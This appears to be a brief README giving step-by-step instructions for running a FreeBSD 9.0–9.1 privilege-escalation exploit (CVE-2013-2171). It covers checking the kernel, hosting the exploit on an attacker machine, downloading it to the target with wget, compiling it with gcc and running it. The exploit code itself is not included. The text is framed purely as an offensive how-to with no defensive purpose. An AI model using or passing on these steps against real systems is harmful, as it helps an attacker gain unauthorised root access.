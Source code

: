 # FreeBSD-9.0-9.1 - Privilege-Escalation
CVE-2013-2171

By fbsd9lul@hunger.hu

How to Exploit!

**1° Check the kernel version**
uname -a

**2° Transfer this file to target**

Attacker machine -> python3 -m http.server 8080
Target machine -> wget IP:8080/26368.c

**3° Use GCC to compile the code**
gcc 26368.c -o exploit

**4° Run the exploit**
./exploit
